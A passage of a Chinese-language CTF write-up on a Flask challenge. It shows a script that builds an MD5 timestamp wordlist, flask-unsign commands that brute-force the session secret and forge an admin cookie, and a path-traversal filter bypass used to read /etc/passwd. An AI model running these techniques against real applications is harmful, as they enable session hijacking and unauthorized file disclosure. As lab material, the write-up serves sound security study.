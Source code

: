 登陆后提示 md5 + 时间戳 生成了 SECRET

![image-20250126002940921](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67951175a0760.png)

结合 Cookie 中的 jwt ，推测是 jwt 的 secretkey

#### 0x01 session 伪造

虽然允许注册 admin 用户，但是还是伪造一下 session 吧，wp 看到是非预期

之前用的是 flask-session-cookie-manager ，不能爆破， 官方 wp 给出 flask-unsign ，工具++

生成字典

```python
import time
import hashlib

wordlist = []
timestamp = int(time.time())
for i in range(timestamp - 1000000, timestamp + 1000000):
    wordlist.append(hashlib.md5(str(i).encode()).hexdigest())

with open("/home/mingzu/CTF/wordlist.txt", "w") as f:
    for word in wordlist:
        f.write(word + "\n")
```

```bash
> flask-unsign -u -c "eyJ1c2VybmFtZSI6Im1pbmd6dSJ9.Z5UV3g.v4iJ--zejF0WE-AetwuuqaYPy-A" --wordlist wordlist.txt --no-literal-eval
[*] Session decodes to: {'username': 'mingzu'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 996480 attempts2acb53068c17
b'c78e2cbce1051488f1f616939660a68d'
```

爆破出 secret ，伪造 session

```bash
> flask-unsign -s -c "{'username': 'admin'}" --secret 'c78e2cbce1051488f1f616939660a68d'
eyJ1c2VybmFtZSI6ImFkbWluIn0.Z5UfEw.PWO_FglQqS-u7lTOfsl_BCMEzeE
```

#### 0x02 获取源码

点开 article ，`GET /article?file=` 的形式感觉是文件包含，读 `articles/../articles/article1.txt`  提示文件未找到，尝试双写绕过，路径正确

![image-20250126003414160](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67951286e540b.png)

读 `/etc/passwd` 确定相对路径

![image-20250126003721334](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/6795134240df1.png)

读 `/flag` 返回读取文件时发生错误，不让直接读
